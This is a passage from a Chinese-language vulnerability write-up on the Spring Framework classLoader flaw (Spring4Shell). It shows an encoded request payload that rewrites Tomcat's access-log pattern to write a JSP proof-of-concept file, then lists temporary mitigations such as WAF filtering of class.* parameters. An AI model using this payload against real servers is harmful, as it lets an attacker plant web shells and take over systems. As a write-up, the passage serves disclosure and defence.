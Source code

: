 因此数据包定义为：`%{%}t`，这样就可以向 log 文件中写入 `%` 了。

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```fallback<br>class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=3<br>class.module.classLoader.resources.context.parent.pipeline.first.pattern=%3C%25%7B%25%7Dtout.println(%22POC%20Test%22)%3B%25%7B%25%7Dt%3E<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203302203197.png-water_print](assets/1699408077-0b1957b0092b713e1426fa67cc358859.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203302203197.png-water_print")

查看文件：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203302202352.png-water_print](assets/1699408077-d4779e03c3ea8c3c7064439a725e0a69.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203302202352.png-water_print")

## [](#3-%E4%B8%B4%E6%97%B6%E4%BF%AE%E5%A4%8D%E6%96%B9%E6%A1%88)3 临时修复方案

-   WAF 中对参数中出现的 `class.*`， `Class.*`，`*.class.*`， `*.Class.*` 字符串的规则过滤
-   全局搜索 `@InitBinder` 注解，判断方法体内是否有 dataBinder.setDisallowedFields 方法，如果有使用则在原来的黑名单中添加：
